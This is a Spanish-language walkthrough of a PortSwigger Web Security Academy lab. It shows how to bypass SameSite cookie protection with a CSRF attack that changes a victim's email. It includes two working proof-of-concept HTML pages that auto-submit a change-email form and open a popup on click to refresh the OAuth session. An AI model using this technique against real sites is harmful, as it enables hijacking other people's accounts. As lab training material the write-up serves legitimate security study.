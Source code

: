 `TAREA:` La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Para solucionar este problema, realice un ataque CSRF que cambie la dirección de correo electrónico de la víctima. Debe usar el servidor de exploits proporcionado para alojar el ataque.

El laboratorio admite el inicio de sesión con OAuth. Puede iniciar sesión a través de su cuenta de redes sociales con las siguientes credenciales: `wiener:peter`

`NOTA:` - Los navegadores impiden que se abran las ventanas emergentes a menos que se activen mediante una interacción manual del usuario, como un clic. El usuario víctima hará clic en cualquier página a la que lo redirija, por lo que puede crear ventanas emergentes mediante un controlador de eventos global como se indica a continuación

```python
<script> 
	window.onclick = () => { 
		window.open('about:blank') 
	} 
</script>
```

iniciamos sesión en la web y de inmediato nos damos cuenta que nos esta haciendo una redirección hacia endpoints diferentes tenemos un botón de continuar que probablemente necesite una cookie. en este caso la de sesión
![[Pasted image 20250722103219.png]]

luego tenemos otro botón de continuar que probablemente contenga otra cookie. aquí lo esencial seria analizar ambas solicitudes e identificar si la cookie es diferente
![[Pasted image 20250722103359.png]]

realizamos una solicitud de cambio de correo y la interceptamos para enviarla al repeater 
![[Pasted image 20250722103605.png]]

cuando estamos en el repeater iniciamos un CSRF-POC
![[Pasted image 20250722103807.png]]

en este caso el history.pushState no lo necesitamos ya que esta vulnerabilidad por lógica del laboratorio se modifica para que sea una solicitud mas automatizada donde la victima debe hacer clic. pero en este caso debemos generar una ventana emergente con el código que nos proporcionaron. nos quedaría algo como esto:

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a49006d035448148083fd090057002b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script> 
	window.onclick = () => { 
		window.open('about:blank') 
	} 
</script>
  </body>
</html>
```

`NOTA:` recuerda cambiar el correo ya que no puede ser el mismo correo del ataque al que ya esta registrado en la cuenta.

###### OPCIÓN 2
puedes usar este código que que esta proporcionado por el laboratorio si no cuentas con burpsuite profecional.

```python
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> 
	<input type="hidden" name="email" value="pwned@portswigger.net"> 
</form> <p>Click anywhere on the page</p> 
<script> 
	window.onclick = () => { window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); 
	setTimeout(changeEmail, 5000); 
	} 
		function changeEmail() { 
			document.forms[0].submit(); } 
</script>
```
